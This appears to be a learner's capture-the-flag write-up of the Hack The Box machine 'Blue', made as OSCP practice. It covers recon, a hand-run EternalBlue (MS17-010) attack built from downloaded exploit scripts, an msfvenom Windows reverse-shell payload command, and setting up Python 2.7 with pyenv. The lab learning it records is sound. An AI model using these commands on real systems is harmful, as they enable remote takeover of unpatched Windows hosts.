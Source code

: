 # Blue
Name: Blue
Date:  22/09/2022 - With Metasploit &
Difficulty:  Easy
Goals:  OSCP Prep, rewrite a python exploit
Learnt: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py exists and I am grateful to Tyler from https://www.wirebiters.com/

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
```bash
ping -c 3 10.129.105.18  
PING 10.129.105.18 (10.129.105.18) 56(84) bytes of data.
64 bytes from 10.129.105.18: icmp_seq=1 ttl=127 time=232 ms
64 bytes from 10.129.105.18: icmp_seq=2 ttl=127 time=233 ms
64 bytes from 10.129.105.18: icmp_seq=3 ttl=127 time=221 ms

--- 10.129.105.18 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 221.410/228.976/233.237/5.364 ms
```
Even though the name of this room is very siumilar to a famous exploit,
seeing the `Windows 7 Professional 7601 Service Pack 1 microsoft-ds` in nmap of anything to means to check for Eternal Blue. But I also run other nmap scan for completeness and Vuln returns the dreaded smb-vuln-ms17-010.

## Exploit

Although metasploit has a module for this and it a quick couple of commands to execute I will perform this manually. I looked up manual exploitation of Eternal Blue and found this  article: [redteamzone](https://redteamzone.com/EternalBlue/). Following the steps layed out while being mindful this is a windows 7 exploit using old versions and implementations of python. 

```bash
searchsploit eternal
searchsploit -m 42315.py # -m copies to current working directory
```
![searchsploit](Screenshots/searchsploit.png)

The dependency missing from my VM like the guide is mysmb.
```bash
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Potentially change username and password to `'vagrant'`, ran regardless to detirmine are incompatiblities 
![concat](canonlyconcatstr.png)

I later returned to this box once more time and recognised it was considerable out of date so I tried the [huey](https://dev.to/0xhuey/manually-exploiting-ms17-010-python2-to-python3-3l2k)


```bash
# reverse_tcp for the OSCP guidelines
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.105.18 LPORT=4444 -f exe -o shell.exe
```

## Foothold

## PrivEsc

## Metapsploit
Just for sake of completion
![](metasploit.png)


## Returing to script this

After failing for hours months ago trying to covert python2 to python3 managing dependency hell seemed insane. Months ago I really want to do it in python3, but realistically for the future of python and exploits, why? So I decided to find modern solutions from others, [0xdf](https://0xdf.gitlab.io/2021/05/11/htb-blue.html) demonstrates python virtual environments something I never real knew existed or played with, which would require alot of building for not much pay off for me. I then came across https://www.wirebiters.com/hack-the-box-htb-walkthrough-blue-with-bonus-kali-initial-setup/.. where he list a Offensive Securirty repository with all the classes for all the exploits of all of searchsploit. This was like being kicked in the balls and being handed  amount of X desirable good/service tickets... WTF.. probably the must face slapping wget of my life.
```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py
```

Then after much researching!
```bash
sudo apt install -y build-essential libssl-dev zlib1g-dev libbz2-dev libreadline-dev libsqlite3-dev wget curl llvm libncurses5-dev libncursesw5-dev xz-utils tk-dev libffi-dev liblzma-dev python3-openssl git
wait
curl https://pyenv.run | bash
wait
echo '' >> ~/.zshrc
echo '# Python 2.7 required!' >> ~/.zshrc
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.zshrc
echo 'export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.zshrc
echo -e 'if command -v pyenv 1>/dev/null 2>&1; then\n  eval "$(pyenv init --path)"\nfi' >> ~/.zshrc
echo '' >> ~/.zshrc

exec $SHELL


#The below is the work of [ben leeyr](https://benleeyr.wordpress.com/2022/01/30/pyenv-installation-on-kali/) . Only changes is to use `pip2` to get `impacket` and `init`
pyenv global 2.7.18
pyenv global system
pyenv init
```
add to your shell's .rc the below is for `zsh`'s `.zshrc`
```bash
# Load pyenv automatically by appending
# the following to 
~/.zprofile (for login shells)
and ~/.zshrc (for interactive shells) :

export PYENV_ROOT="$HOME/.pyenv"
command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"
eval "$(pyenv init -)"
```
Then
```bash
pyenv shell 2.7.18
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
sudo python2 get-pip.py
sudo pip2 install -U setuptools
sudo pip2 install impacket
```
![](rootroot.png)
